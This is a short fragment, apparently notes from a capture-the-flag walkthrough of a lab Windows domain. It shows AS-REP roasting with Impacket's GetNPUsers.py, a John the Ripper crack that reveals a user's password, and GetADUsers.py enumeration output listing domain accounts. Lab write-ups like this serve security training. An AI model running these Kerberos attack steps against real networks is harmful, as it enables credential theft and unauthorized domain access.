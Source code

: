 python GetNPUsers.py -dc-ip 10.10.10.175 -format john EGOTISTICAL-BANK.LOCAL/fsmith -no-pass -outputfile smith.decode
john --fork=4 --format=krb5asrep --wordlist=~/Documents/Dictionaries/rockyou.txt smith.hash => Thestrokes23
python GetADUsers.py -all -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/fsmith
[*] Querying 10.10.10.175 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Administrator                                         2020-01-25 01:14:15.321116  2020-02-11 00:16:17.478519 
Guest                                                 <never>              <never>             
krbtgt                                                2020-01-23 13:45:30.587720  <never>             
HSmith                                                2020-01-23 13:54:34.140321  <never>             
FSmith                                                2020-01-24 00:45:19.047096  2020-02-26 19:41:02.553252 
svc_loanmgr                                           2020-01-25 07:48:31.678079  <never>        
